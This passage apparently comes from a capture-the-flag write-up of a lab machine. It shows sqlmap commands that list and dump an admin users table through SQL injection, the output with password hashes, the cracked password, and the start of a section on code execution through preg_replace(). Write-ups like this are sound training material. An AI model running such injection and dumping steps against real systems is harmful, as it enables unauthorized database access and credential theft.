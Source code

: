 Now list the tables in the admin DB:

```

root@kali# sqlmap -r login.request --force-ssl --batch -D admin --tables
...[snip]...
[06:58:50] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[06:58:50] [INFO] fetching tables for database: 'admin'
[06:58:50] [INFO] retrieved: 'users'
Database: admin
[1 table]
+-------+
| users |
+-------+

[06:58:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

```

I’ll dump that table:

```

root@kali# sqlmap -r login.request --force-ssl --batch -D admin -T users --dump
...[snip]...
Database: admin
Table: users
[2 entries]
+----+----------------------+--------+----------------------------------+---------------+
| id | email                | active | password                         | username      |
+----+----------------------+--------+----------------------------------+---------------+
| 1  | admin@europacorp.htb | 1      | 2b6d315337f18617ba18922c0b9597ff | administrator |
| 2  | john@europacorp.htb  | 1      | 2b6d315337f18617ba18922c0b9597ff | john          |
+----+----------------------+--------+----------------------------------+---------------+

[07:00:20] [INFO] table 'admin.users' dumped to CSV file '/root/.sqlmap/output/admin-portal.europacorp.htb/dump/admin/users.csv'
[07:00:20] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

```

[hashes.org](https://hashes.org/) will show this cracks to “SuperSecretPassword!”, and now I can log in as either admin or john.

### RCE in preg\_replace()

#### Enumeration

On the left side `dashboard.php`, there’s a link to “Tools” (`tools.php`). This page has an “OpenVPN Config Generator”:
